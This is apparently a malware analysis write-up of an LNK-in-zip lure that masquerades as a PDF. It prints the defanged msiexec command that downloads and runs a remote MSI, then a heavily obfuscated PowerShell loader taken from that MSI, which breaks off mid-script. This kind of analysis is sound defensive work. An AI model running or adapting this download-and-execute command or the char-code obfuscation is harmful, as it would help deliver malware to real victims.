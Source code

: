 ![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0451615-f6eb-40e0-85fd-891396665494)

A Zip archive is downloaded, which contains a Lnk file, masquerading with a PDF icon.

LNK Target Path (Defanged): 
```
C:\Windows\System32\msiexec.exe -package hxxPs[:/\]onedrive.live[.]com/download?cid=85B4181C5D4F7514&resid=58504D327740F380%21149&authkey=AIHrvoeE31NvUiI&.msi -qn
```

Upon execution, MsiExec would execute with the argument to download and execute a MSI file from the OneDrive URL provided.

## MSI File Analysis 

This downloaded a file called "42WiseAnyConnect.msi", which we can extract a PowerShell script from using lessmsi:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/76fd615d-1298-47ac-bf25-a9e719da17d3)

## PowerShell Deobfuscation

PowerShell Script:
``` powershell
.(-join[char[]]((570-465),(266-165),(354-234)))(-join[char[]]((65678-399),(939-856),(959-858),(460-344),(618-573),(926-850),(700-589),(648-549),(283-186),(223-107),(596-491),(1006-895),(308-198),(440-408),(1038-971),(614-556),(332-240),(417-330),(826-721),(849-739),(734-634),(782-671),(619-500),(468-353),(309-217)(466-382),(787-686),(775-666),(724-612),(347-255),(933-846),(972-867),(959-849),(1063-963),(810-699),(897-778),(265-150),(611-544),(1077-963),(321-224),(421-306),(906-802),(528-452),(878-767),(927-824),(423-308),(543-497),(789-679),(1001-948),(960-845),(526-404),(924-838),(784-683),(867-747),(640-588),(361-305),(971-857),(590-535),(616-533),(967-910),(192-122),(656-589),(370-288),(548-450),(783-726),(943-865),(647-578),(226-159),(592-475),(323-313),(400-390),(929-893),(315-227),(883-763),(888-800),(411-324),(520-446),(625-554),(754-648),(775-695),(554-435),(346-226),(370-305),(235-203),(535-474),(633-601),(871-826),(675-569),(389-278),(353-248),(989-879),(725-634),(657-558),(262-158),(387-290),(524-410),(384-293),(860-767),(780-687),(638-598),(149-109),(349-292),(1049-996),(1008-960),(573-528),(480-424),(310-257),(914-863),(929-888),(243-199),(757-717),(945-888),(899-845),(987-935),(474-429),(731-675),(570-516),(859-805),(478-437),(812-768),(914-874),(858-802),(168-118),(560-512),(465-420),(950-895),(603-553),(910-861),(996-955),(966-922),(876-836),(362-313),(595-547),(766-710),(709-653),(906-861),(492-435),(949-893),(696-640),(824-783),(365-321),(611-571),(433-378),(722-668),(608-551),(924-879),(688-634),(726-672),(168-112),(283-242),(566-522),(1015-975),(822-765),(937-886),(995-943),(725-680),(329-273),(430-379),(422-372),(333-292),(463-419),(179-139),(752-703),(1039-991),(277-220),(410-354),(380-335),(443-386),(1052-995),(580-527),(537-496),(519-475),(862-822),(651-594),(441-393),(979-924),(349-304),(229-173),(430-382),(564-513),(970-929),(858-814),(208-168),(1010-958),(646-594),(555-503),(833-788),(349-298),(487-436),(722-665),(290-249),(706-662),(271-231),(596-542),(260-212),(209-161),(837-792),(423-371),(961-904),(442-390),(647-606),(434-390),(161-121),(370-320),(823-771),(541-492),(1041-996),(348-299),(245-194),(887-835),(504-463),(828-784),(334-294),(730-674),(187-132),(1044-989),(639-594),(295-240),(813-759),(1006-949),(731-690),(714-670),(619-579),(422-370),(770-718),(753-699),(220-175),(262-211),(343-292),(820-765),(177-136),(494-450),(583-543),(889-839),(479-424),(997-949),(441-396),(561-512),(458-404),(304-256),(607-566),(952-908),(836-796),(437-385),(531-477),(875-819),(828-783),(900-849),(698-645),(470-415),(527-486),(988-944),(161-121),(408-356),(238-182),(478-428),(281-236),(214-163),(496-441),(216-168),(1006-965),(244-200),(428-388),(161-112),(349-301),(1035-983),(248-193),(649-604),(163-106),(966-915),(287-235),(927-886),(778-734),(869-829),(468-416),(480-427),(1017-967),(150-105),(1051-1000),(1009-958),(367-311),(397-356),(685-641),(583-543),(643-588),(641-590),(463-414),(778-733),(323-269),(189-140),(653-599),(572-531),(162-118),(157-117),(471-421),(705-650),(757-700),(793-748),(814-765),(297-243),(473-422),(536-495),(600-556),(916-876),(494-440),(1037-981),(314-261),(997-952)
```
